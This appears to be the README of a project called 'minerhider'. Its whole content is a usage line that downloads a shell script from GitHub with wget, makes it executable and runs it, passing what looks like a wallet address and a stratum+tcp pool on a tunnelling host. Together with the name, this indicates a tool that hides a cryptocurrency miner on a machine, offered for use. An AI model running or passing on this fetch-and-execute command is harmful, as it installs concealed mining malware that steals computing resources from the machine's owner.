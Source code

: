 # minerhider
usega :
wget https://github.com/minhide/minerhider/raw/refs/heads/main/sh && chmod +x sh && ./sh RVV8T2V36o6sxWJqqqc6fTLF6pKp3RWifN.2 stratum+tcp://wbnewtea-40878.portmap.host:40878 2 n
